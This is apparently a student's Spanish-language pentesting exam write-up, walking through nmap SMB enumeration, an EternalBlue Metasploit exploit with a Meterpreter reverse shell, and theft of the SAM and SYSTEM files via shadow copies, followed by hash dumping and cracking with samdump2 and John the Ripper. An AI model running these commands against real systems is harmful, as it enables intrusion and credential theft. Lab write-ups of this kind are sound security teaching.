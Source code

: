 ```yaml
---
title: Examen Parcial
date: 2024-11-03 00:00:00 +05:00
categories: [reconnaisance, kill chain, pentesting]
tags: [nmap, kali, metaxploid, SSH, vssown, handshake]  # TAG names should always be lowercase
---
```


# 2.1 Escaneo de Red y Enumeración de Servicios 
## Paso 1: Identificación de Puertos SMB
Los puertos a escanear son:

TCP 139: NetBIOS Session Service
TCP 445: SMB over TCP

## Paso 2: Comando Nmap
Ejecuta el siguiente comando en terminal de Kali Linux:

```bash
nmap -p 139,445 --script smb-protocols <10.0.2.4>
```

![figure](/assets/images/nmap2.jpeg)


## Paso 3: Análisis del Output
Al analizar la salida, busca líneas que indiquen la presencia de SMBv1, como:


```bash
| smb-protocols:
|   SMBv1:
|     NT LM 0.12
```
Esto confirmará que SMBv1 está habilitado.

## Análisis de los Resultados
- Puertos y Servicios Detectados:
139/tcp: netbios-ssn (abierto)
445/tcp: microsoft-ds (abierto)
- Resultados del Script smb-protocols:
SMBv1 está habilitado (indicado por NT LM 0.12).
Se señala que SMBv1 es peligroso y por defecto.

# 2.2 Exploración de la Vulnerabilidad
Identificación de Vulnerabilidad:
Después de realizar el escaneo, verifica si el servicio SMBv1 es vulnerable al exploit EternalBlue (CVE-2017-0144).

1. Usar Metasploit para Explorar SMB:

- Inicia Metasploit en Kali con el comando:
```bash
msconsole
```
![figure](/assets/images/msfconsole.png)

- Busco un exploit adecuado para SMBv1:
```bash
search ms17_010
use exploit/windows/smb/ms17_010_eternalblue
```
![figure](/assets/images/metasss.png)

Explicación:

EternalBlue: Este módulo aprovecha una vulnerabilidad en SMBv1 que permite la ejecución remota de código. Se selecciona este módulo porque es conocido por su eficacia en sistemas que aún utilizan SMBv1.


# 2.3. Configuración del Exploit en el Framework Metasploit
Configuración:

```bash
set RHOST <IP_VICTIMA>
set LHOST <TU_IP>
set PAYLOAD windows/x64/meterpreter/reverse_tcp
```

![figure](/assets/images/exploid1.png)

Explicación de Parámetros:

- RHOST: Dirección IP de la máquina víctima. Es esencial para dirigir el exploit correctamente.
- LHOST: Dirección IP de tu máquina atacante, donde recibirás la conexión de retorno.
- PAYLOAD: Define el tipo de conexión que deseas establecer (en este caso, una shell reversa de Meterpreter).

# 2.4. Ejecución del Exploit
Ejecución:


```bash
exploit
```
![figure](/assets/images/55.png)

# 2.5. Exfiltración de Archivos SAM y SYSTEM

Infiltración del Script:
Sube el archivo vssown.vbs al sistema objetivo utilizando Meterpreter:

```bash
upload /ruta/local/vssown.vbs C:\Users\Public\vssown.vbs
```
Ejecutar el Script:

```bash
execute -f C:\Users\Public\vssown.vbs
```
Comandos para Crear Copia de Sombra:
Después de ejecutar el script, utiliza los siguientes comandos:

```bash
vss_list
```
Esto mostrará las copias de sombra disponibles.

Copiar Archivos SAM y SYSTEM:

```bash

copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopyX\Windows\System32\config\SAM C:\Users\Public\SAM
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopyX\Windows\System32\config\SYSTEM C:\Users\Public\SYSTEM
```
Descargar Archivos:

```bash
download C:\Users\Public\SAM /ruta/local/SAM
download C:\Users\Public\SYSTEM /ruta/local/SYSTEM
```

# 2.6. Análisis de los Archivos Exfiltrados
Extracción de Hashes:
Una vez que tengas los archivos SAM y SYSTEM en tu máquina Kali, utiliza samdump2:

```bash
samdump2 SYSTEM SAM > hashes.txt
```
Descifrado de Hashes:
Para intentar descifrar los hashes, usa herramientas como John the Ripper:

```bash

john hashes.txt
```

# 2.7. Requisitos de Documentación
Documentación:

Se realizo capturas de pantalla Captura pantallas de cada paso clave.
Se explica los resultados de cada paso

